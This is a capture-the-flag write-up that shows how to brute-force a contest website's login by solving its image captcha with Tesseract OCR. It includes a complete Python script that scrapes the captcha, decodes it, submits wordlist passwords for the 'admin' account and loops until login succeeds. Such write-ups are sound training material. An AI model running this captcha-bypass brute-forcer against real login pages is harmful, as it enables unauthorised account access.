 # Anti BF

```
A strange looking person is coming at you with a bright grin 
on his face. Interested, you ask him what's going on. He then 
says that he just implemented an anti-bruteforce on his
website's login page, and that there is no way for you to 
break it.

Prove him that his system is not that secure by login into his 
website.
```

Level : Medium
Author : Mizu

## Write up
Programming language : Python 🐍

For this challenge, we need to login into his website by using the password list gived by the sweet owner.

![Main page]{images/site.png}
![Login page]{images/login.png}

Several problems we got :
* Submit the form
* Analyze the captcha
* Input passwords from the list

To take care about the form we are going to use the module `requests` of python. 

For this challenge we have to scrap the site and send the data after, to perform this we need a session. 

```python
with requests.Session() as s:
```

Now we can start our script with a scrapping. I use the same cookies for each requests.

```python
jar = requests.cookies.RequestsCookieJar()
jar.set('session', '4d299fd8-871f-4b06-8086-ef26ba096ad3')

site = s.get(url, cookies=jar)
```
We got the site in the variable `site`, but it is a bunch of information and we just want the captcha. So, we are going to use `BeautifulSoup` to find our captcha.

After parse the code, and find the captcha, we see that is a picture encoded in **base64**. Cool, python got a module call `base64` to manage **decode/encode base64**. Just remember the image is encoded in base64, we will use it after.

We have to take care of the captcha, I found a software call `Tesseract OCR` https://github.com/tesseract-ocr/tesseract that recognize text in a picture, that perfect for our challenge! Moreover he have a python implementation with `pytesseract`.

Inform to the module, where is installed our software on the computer : 
```python
pytesseract.pytesseract.tesseract_cmd = "..\\Tesseract\\tesseract.exe"
```
Tesseract need a image to recognize the text, so we are going to use the module `cv2` to read our captcha input it on Tesseract to get the text. To perform this we have to save our image on our computer and after read with cv2.

To save our image, we are going to use the instance `Image` from `PIL`. Of course, our captcha is encoded in base64, remember it, so we have to decode it and read the bytes by using `BytesIO` from `io` for save the image.

```python
im = Image.open(BytesIO(base64.b64decode(b64)))
im.save('captcha%s.png' % sys.argv[1], 'PNG')

img = cv2.imread('captcha%s.png' % sys.argv[1])
```
Now our captcha is decoded and saved on our computer, we just need to say to tesseract, "Hey, identify the text in this picture!"

```python
captcha = pytesseract.image_to_string(img).replace('\n', '')
```

Tada! we got our captcha in a variable `captacha`. 
>Of course, Tesseract is not 100% accurate, so because we will bruteforcing, we must pray that the password is not the one where Tesseract failed to recognize.

We just send the data by using the function `post()` of requests, and store the site content to look at if you we got an error (wrong password or captcha) or if we found the password!
```python
r = s.post(url, data={'username': 'admin', 'password': password, 'captcha': captcha}, cookies=jar)
```

We manage those errors by a set of condition and that it we repeat this process of each password from the password list

```python
if p[len(p)-1].text == 'Wrong credentials !':
    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
elif p[len(p)-1].text == 'Wrong captcha !':
    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
else:
    print(Fore.GREEN+'+ password found : %s' % (password))
```
### Tips 

1. Make our script in a infinite loop until we got the good password, because if you reach the last password and the good one was with a wrong captcha, we fail our bruteforce. So I return `True` if we got the good password to terminate the script.
```python
def main():
    while True:
        if bruteforce(): break

if __name__ == '__main__':
    main()
```

2. I also write the password in a file when we got the good one, to let the script run and go to sleep. Meanwhile, our script are going to try every password and if we get it, the script closes. 
```python 
with open('..\\flag.txt', 'w') as file:
    file.write('\n'.join((url, 'admin', password)))
```

3. I set a parameter to my script, this paramater is the number of our screen. Let me explain, If this number is odd the script lists the passwords from first to last, but if it is even then it is the opposite (from last to first). The goal is to have several terminals that run the script and enumerate the password in one direction and in the other.
```python
type = True if ((int(sys.argv[1]) + 1) % 2 == 0) else False
...
if type: password = lines[i].replace('\n', '')
else: password = lines[len(lines)-1-i].replace('\n', '')
```

Final Code : 
```python
from PIL import Image
from io import BytesIO
import cv2
import pytesseract
import requests
import base64
import sys
from bs4 import BeautifulSoup
from colorama import init, Fore, Style

# Initialize colors
init()
print(Style.BRIGHT + "HEY YOU DON'T RUN FROM THE BRUTEFORCE!")

# Inform where is our Tesseract software to pytesseract
pytesseract.pytesseract.tesseract_cmd = "C:/Users/fox25/Desktop/python/Tesseract/tesseract.exe"

url = "http://antibf.ec2qualifications.esaip-cyber.com/login"

# This permit to have several terminals that run the script and enumerate the password in one direction and in the other.
type = True if ((int(sys.argv[1]) + 1) % 2 == 0) else False

def bruteforce():
    # Make the requests in a session
    with requests.Session() as s:
        # Read the password list
        with open('wordlist.txt', 'r') as file:
            lines = file.readlines()

            for i in range(len(lines)):
                # Filter the password
                if type: password = lines[i].replace('\n', '')
                else: password = lines[len(lines)-1-i].replace('\n', '')

                # Set the session cookies
                jar = requests.cookies.RequestsCookieJar()
                jar.set('session', '4d299fd8-871f-4b06-8086-ef26ba096ad3')

                # Scrap the logging page
                site = s.get(url, cookies=jar)

                # Parse the scrap
                soup = BeautifulSoup(site.text, 'html.parser')

                # Find the captcha
                imgcaptcha = soup.findAll('img', attrs={"class": "center-img mgb-1"})

                # Filter string to get just the base64 string
                b64 = imgcaptcha[0]['src'].replace('data:image/png;base64, ', '').encode()

                # Save the captcha into our computer
                im = Image.open(BytesIO(base64.b64decode(b64)))
                im.save('captcha%s.png' % sys.argv[1], 'PNG')

                # Load the picture
                img = cv2.imread('captcha%s.png' % sys.argv[1])


                # Recognize the text in the picture by using Tesseract
                captcha = pytesseract.image_to_string(img).replace('\n', '')

                # Post the datas and store the response (scrap the site another time)
                r = s.post(url, data={'username': 'admin', 'password': password, 'captcha': captcha}, cookies=jar)

                # Parse the response and find the response
                soup2 = BeautifulSoup(r.text, 'html.parser')
                p = soup2.findAll('p')
                msg = p[len(p)-1]

                # Check if the response is an error (wrong password/captcha) or the good password
                if p[len(p)-1].text == 'Wrong credentials !':
                    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
                elif p[len(p)-1].text == 'Wrong captcha !':
                    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
                else:
                    print(Fore.GREEN+'+ password found : %s' % (password))
                    with open('..\\flag.txt', 'w') as file:
                        file.write('\n'.join((url, 'admin', password)))
                    return True


def main():
    # Repeat the bruteforce until we got the good password
    while True:
        if bruteforce(): break

if __name__ == '__main__':
    main()
```
This method have a lot of issues, and sure it is not the most optimize, moreover Tesseract is not 100% accurate.
![bruteforce.png](./images/bruteforce.png)

There is the flag :
![flag.png](./images/flag.png)
```
R2Lille{C4pTCh4_4r3_N0t_3n0uGh}
```